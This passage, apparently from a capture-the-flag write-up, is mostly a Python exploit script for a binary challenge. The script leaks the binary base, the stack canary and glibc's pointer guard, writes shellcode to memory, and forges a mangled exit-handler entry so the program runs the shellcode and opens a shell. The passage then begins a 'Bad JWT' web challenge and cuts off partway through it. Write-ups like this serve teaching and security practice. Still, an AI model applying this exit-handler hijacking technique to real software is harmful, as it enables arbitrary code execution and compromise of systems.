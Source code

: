 ```python
set_addr(libc_stack_end - 0x18)
start_ret_addr = u(read_fixed(0)[:8])
binary_base = start_ret_addr - 0x1265
print('binary_base =', hex(binary_base))

shellcode_addr = libc_stack_end + 0x100
print('shellcode_addr =', hex(shellcode_addr))
set_addr(shellcode_addr)
write_fixed(0, SHELLCODE)

set_addr(fs_base)
tls = read_fixed(0)
stack_canary = u(tls[0x28:0x30])
pointer_guard = u(tls[0x30:0x38])
print('stack_canary = ', hex(stack_canary))
print('pointer_guard = ', hex(pointer_guard))

def rol64(value, n):
    MASK = (1 << 64) - 1
    return ((value << n) | (value >> (64 - n))) & MASK

def mangle(ptr):
    return rol64(ptr ^ pointer_guard, 17)

bss_addr = binary_base + 0x4800

set_addr(exit_handlers)
write_fixed(0, p(bss_addr))

set_addr(bss_addr)
fake_exit_function_list = b''
fake_exit_function_list += b'A' * 8 # next
fake_exit_function_list += p(1) # idx
fake_exit_function_list += p(2) # flavor
fake_exit_function_list += p(mangle(shellcode_addr)) # fn
fake_exit_function_list += b'B' * 8 # arg
write_fixed(0, fake_exit_function_list)

r.sendline(b'0')

context.log_level = 'debug'
r.interactive(prompt='')
```

## **Web**
### 1.Bad JWT
---
```
# Bad JWT

## Overview

Manipulate the header of JWT with the desired algorithm.

```javascript
const algorithms = {
	hs256: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
	hs512: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
}

```